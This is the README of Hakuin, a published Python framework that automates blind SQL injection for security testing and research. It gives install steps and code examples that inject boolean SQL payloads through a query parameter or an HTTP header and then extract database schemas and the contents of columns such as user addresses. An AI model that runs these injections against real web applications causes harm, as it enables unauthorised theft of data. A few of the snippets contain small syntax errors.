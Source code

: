 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) optimization and automation framework written in Python 3. It abstract away the inference logic and allows users to easily and efficiently extract databases (DB) from vulnerable web applications. To speed up the process, Hakuin uses pre-trained language models for DB schemas and adaptive language models in combination with opportunistic string guessing for textual DB content.

Hakuin has been presented at esteemed academic and industrial conferences:
- [BlackHat MEA, Riyadh](https://blackhatmea.com/session/hakuin-injecting-brain-blind-sql-injection), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023
- [IEEE S&P Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023

More information can be found in our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) and [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).


## Installation
To install Hakuin, simply run:
```
pip3 install hakuin
```
Developers should install the package locally and set the `-e` flag for editable mode:
```
git clone git@github.com:pruzko/hakuin.git
cd hakuin
pip3 install -e .
```


## Examples
Once you identify a BSQLI vulnerability, you need to tell Hakuin how to inject its queries. To do this, derive a class from the `Requester` and override the `request` method. Also, the method must determine whether the query resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import requests
from hakuin import Requester

class StatusRequester(Requester):
    def request(self, ctx, query):
        r = requests.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status_code == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = requests.get(f'http://vuln.com/', headers=headers)
        return 'found' in r.content.decode()
```

To start extracting data, use the `Extractor` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Currently, Hakuin supports SQLite, MySQL, and MSSQL (SQL Server) DBMSs, but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Extracting SQLite/MySQL/MSSQL
```python
from hakuin.dbms import SQLite, MySQL, MSSQL
from hakuin import Extractor, Requester

class StatusRequester(Requester):
    ...

ext = Extractor(requester=StatusRequester(), dbms=SQLite())
# ext = Extractor(requester=StatusRequester(), dbms=MySQL())
# ext = Extractor(requester=StatusRequester(), dbms=MSSQL())
```

Now that eveything is set, you can start extracting DB schemas.

##### Example 1 - Extracting DB Schemas
```python
# strategy:
#   'binary':   Use binary search
#   'model':    Use pre-trained models
schema = ext.extract_schema(strategy='model')
```

```

##### Example 2 - Extracting only Table/Column Names
```python
tables = ext.extract_table_names(strategy='model')
columns = ext.extract_column_names(table='users', strategy='model')
```

Once you know the schema, you can extract the actual content.

##### Example 1 - Extracting Textual Columns
```python
# strategy:
#   'binary':       Use binary search
#   'fivegram':     Use five-gram model
#   'unigram':      Use unigram model
#   'dynamic':      Dynamically identify the best strategy. This setting
#                   also enables opportunistic guessing.
res = ext.extract_column_text(table='users', column='address', strategy='dynamic'):
```

##### Example 2 - Extracting Integer Columns
```python
res = ext.extract_column_int(table='users', column='id'):
```

##### Example 3 - Extracting Float Columns
```python
res = ext.extract_column_float(table='products', column='price'):
```

##### Example 4 - Extracting Blob (Binary Data) Columns
```python
res = ext.extract_column_blob(table='users', column='id'):
```

More examples can be found in the `tests` directory.


## Using Hakuin from the Command Line
Hakuin comes with a simple wrapper tool, `hk.py`, that allows you to use Hakuin's basic functionality directly from the command line. To find out more, run:
```
python3 hk.py -h
```


## For Researchers
This repository is actively developed to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
